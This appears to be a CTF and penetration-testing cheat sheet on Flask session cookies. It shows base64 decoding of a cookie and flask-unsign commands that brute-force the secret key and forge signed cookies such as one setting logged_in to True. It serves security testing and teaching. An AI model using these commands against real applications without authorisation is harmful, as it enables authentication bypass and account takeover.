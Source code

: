 Flask

Probably if you are playing a CTF a Flask application will be related to SSTI.
Cookies

Default cookie session name is session.
Decoder

Online Flask coockies decoder: https://www.kirsle.net/wizards/flask-session.cgi​
Manual

Get the first part of the cookie until the first point and Base64 decode it>

echo "ImhlbGxvIg" | base64 -d

The cookie is also signed using a password
 Flask-Unsign

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.
flask-unsign
Flask Unsign is a penetration testing utility that attempts to uncover a Flask server's secret key by taking a signed session verifying it against a wordlist of commonly used and publicly known secret keys (sourced from books, GitHub, StackOverflow and various other sources).
pypi.org

pip3 install flask-unsign

Decode Cookie

flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'

Brute Force

flask-unsign --unsign --cookie < cookie.txt

Signing

flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'

Signing using legacy (old versions)

flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
